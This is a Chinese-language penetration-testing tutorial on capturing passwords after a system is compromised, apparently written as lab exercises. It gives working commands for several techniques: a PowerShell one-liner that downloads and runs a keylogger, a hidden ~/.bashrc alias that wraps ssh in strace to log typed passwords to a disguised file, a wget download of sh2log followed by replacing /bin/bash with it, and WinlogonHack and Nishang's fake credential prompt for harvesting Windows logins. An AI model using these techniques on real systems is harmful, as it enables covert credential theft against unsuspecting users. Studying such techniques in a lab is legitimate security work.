 # 密码记录

#### 键盘记录 <a id="-"></a>

**Windows Powershell**

```text
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-Keystrokes.ps1’); Get-Keystrokes –Logpath C:\log.txt
```

![](https://p408.ssl.qhimgs4.com/t01b88c8c99ce2aeb09.png)

**Linux alias**

在~/.bashrc下添加如下一行：

```text
alias ssh='strace -o /var/tmp/.syscache-`date +'%Y-%m-%d+%H:%m:%S'`.log -s 4096 ssh'
```

使更改生效：

```text
source ~/.bashrc
apt-get install strace        //若缺少此软件，需要安装
```

当有用户使用ssh命令时：

![](https://p408.ssl.qhimgs4.com/t01023d5bc908b02a03.png)

会生成一个Log文件：

![](https://p408.ssl.qhimgs4.com/t01eddaeec76331d552.png)

但是内容特别多，需要筛选：

```text
cat .syscache-2018-11-20+14\:11\:54.log  | grep  "read(4"
```

![](https://p408.ssl.qhimgs4.com/t019d12591756372144.png)

**sh2log**

登录ubuntu主机，下载sh2log：

```text
wget http://packetstorm.foofus.com/UNIX/loggers/sh2log-1.0.tgz
```

![](https://p408.ssl.qhimgs4.com/t013024bb0eca4633a8.png)

解压压缩包

```text
tar –xvf sh2log-1.0.tgz
```

![](https://p408.ssl.qhimgs4.com/t01a724f1ed8f0f6147.png)

Cd进入sh2log-1.0文件夹 安装libx11-dev

![](https://p408.ssl.qhimgs4.com/t01bbf9b1ec5315bf53.png)

安装完成后，编译sh2log：

输入make linux

![](https://p408.ssl.qhimgs4.com/t012a38860736d07456.png)

新建一个shell脚本，脚本内容如下：

```text
sudo mkdir /bin/shells/
sudo cp -p /bin/{sh,bash} /bin/shells/
sudo rm -f /bin/{sh,bash}
sudo cp -p sh2log /bin/bash
sudo cp -p sh2log /bin/sh
 ./sh2logd
```

![](https://p408.ssl.qhimgs4.com/t0149ed40c4bd9928af.png)

保存脚本，添加执行权限：

```text
chmod +x  ./1.sh
```

运行脚本：

```text
./1.sh
```

![](https://p408.ssl.qhimgs4.com/t0190aaaf0cf69f85cf.png)

输入bash，打开一个新的shell，随意输入一些命令 之后使用文件夹中的parser工具，

```text
./parser sh2log-xxxxx.bin
```

![](https://p408.ssl.qhimgs4.com/t0138c0bfbeff709f8a.png)

![](https://p408.ssl.qhimgs4.com/t01119b53b35c539c59.png)

**winlogonhack**

1、载winlogonhack，在windows xp环境下安装、抓取远程连接密码，最后卸载。要求不能直接点击bat文件安装，需要打开bat文件查看内容并简述安装的过程。

下载地址：[http://huaidan.org/wp-content/uploads/200712/WinlogonHack.rar](http://huaidan.org/wp-content/uploads/200712/WinlogonHack.rar)

下载完成后右键打开install.bat

![](https://p408.ssl.qhimgs4.com/t01b08dea31ed5e6b6b.png)

![](https://p408.ssl.qhimgs4.com/t013c0f0bf524db8679.png)

自述每条命令的意思，并逐条执行，执行过程略

打开远程桌面

在我的电脑上右键，选择属性

![](https://p408.ssl.qhimgs4.com/t0193e7164b48d670d2.png)

![](https://p408.ssl.qhimgs4.com/t01f63ffd419f8cb7e8.png)

选择远程，勾选允许远程用户连接到此计算机

![](https://p408.ssl.qhimgs4.com/t01c63aa73db53726ad.png)打开readlog.bat

![](https://p408.ssl.qhimgs4.com/t01a09393044c103405.png)根据代码找到密码保存的位置并打开

![](https://p408.ssl.qhimgs4.com/t01a52bb0755decaec6.png)

打开uninstall.bat,自述命令的意思

![](https://p408.ssl.qhimgs4.com/t0156be54c50faf2e8c.png)

**Invoke-CredentialsPhish.ps1**

下载地址：

[https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-CredentialsPhish.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-CredentialsPhish.ps1)

远程下载执行过程略

在弹出的对话框中输入正确的凭证

![](https://p408.ssl.qhimgs4.com/t0178b496839f9967b0.png)查看结果

![](https://p408.ssl.qhimgs4.com/t01e825b0868dd082d2.png)


